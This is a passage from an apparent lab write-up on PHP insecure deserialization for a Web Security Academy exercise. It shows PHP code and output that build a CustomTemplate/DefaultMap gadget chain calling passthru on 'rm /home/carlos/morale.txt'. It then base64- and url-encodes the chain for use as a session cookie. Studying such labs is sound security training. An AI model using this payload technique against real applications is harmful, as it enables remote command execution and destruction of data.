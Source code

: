 ```php
}

$test = new CustomTemplate();
$ser = serialize($test);
echo($ser . "\n");
echo("===================================================\n");
echo("base64 endcoded then urlencoded: \n");
echo(urlencode(base64_encode($ser)) . "\n");

?>
```

and the output of this code is:

```
O:14:"CustomTemplate":2:{s:33:"CustomTemplatedefault_desc_type";s:26:"rm /home/carlos/morale.txt";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:8:"passthru";}}
===================================================
base64 endcoded then urlencoded:
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MjA6IgBDdXN0b21UZW1wbGF0ZQBkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjIwOiIARGVmYXVsdE1hcABjYWxsYmFjayI7czo4OiJwYXNzdGhydSI7fX0%3D
```

Keep in mind that the php serialized object is a binary format meaning it may contain some null characters... so if we copy-paste the cleartext part from the above output:

```php
O:14:"CustomTemplate":2:{s:33:"CustomTemplatedefault_desc_type";s:26:"rm /home/carlos/morale.txt";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:8:"passthru";}}
```

It won't work, if we want to copy-paste the cleartext version, we need to edit it manually and the final payload will be something like this:

```php
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:8:"passthru";}}
```

If we don't want to edit the output and directly copy-paste the payload, as mentioned above we have to treat serialized php objects as binary format, as the `serialize` function help explains[^3]:

```
Note that this is a binary string which may include null bytes, and needs to be stored and handled as such.
For example, **serialize()** output should generally be stored in a BLOB field in a database, 
rather than a CHAR or TEXT field.
```

 That's why we base64 and url encoded the output to easily be able to copy-paste it as the session cookie. So we copy this part from the output above:

 ```
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MjA6IgBDdXN0b21UZW1wbGF0ZQBkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjIwOiIARGVmYXVsdE1hcABjYWxsYmFjayI7czo4OiJwYXNzdGhydSI7fX0%3D
 ```


[^1]: Icon made by [Paul J.](https://www.flaticon.com/authors/paul-j){: rel="nofollow"} from [www.flaticon.com](https://www.flaticon.com/){: rel="nofollow"}
[^2]: [Insecure deserialization \| Web Security Academy](https://portswigger.net/web-security/deserialization)
[^3]: [PHP:serialize - Manual](https://www.php.net/manual/en/function.serialize.php)